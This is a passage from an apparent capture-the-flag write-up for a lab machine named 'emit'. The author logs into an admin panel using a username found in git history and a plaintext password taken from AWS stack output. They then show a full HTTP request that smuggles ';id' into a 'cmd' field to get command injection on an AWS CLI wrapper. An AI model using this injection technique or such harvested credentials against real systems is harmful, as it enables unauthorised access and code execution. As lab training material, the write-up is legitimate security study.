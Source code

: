 Logging in with the username `maximus_supervisor` from the git commit history and the password from describe-stacks mission-deployment-stage-4 of `dHgtu10kLmDrESd` we get access!

![emit_3](images/emit_3.png)

Trying the `list-functions` command we get a response of 
`{ "Functions": [] }` which is making a post request to the `/maximus-admin-panel/dashboard.php` endpoint with the data `cmd=list-functions` which would be the result of running `aws lambda list-functions`. Since we don't have permission to even do that, we know this application is running as another higher-privilege user. We can also identify it by running `aws lambda list-functions help` and it also responds back with AWS-CLI help data.

Trying to inject other commands such as appending the bash delimiter of `;` and another command of `id` we get output!
```text
POST /maximus-admin-panel/dashboard.php HTTP/1.1
Host: emit.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://emit.htb/maximus-admin-panel/dashboard.php
Content-Type: application/x-www-form-urlencoded
Content-Length: 21
Origin: http://emit.htb
Connection: close
Cookie: PHPSESSID=4ikv1aamiteg3aurv32939dgms
Upgrade-Insecure-Requests: 1

cmd=list-functions;id
```
Response:
```text
uid=1000(maximus_supervisor) gid=1000(maximus_supervisor) groups=1000(maximus_supervisor)
```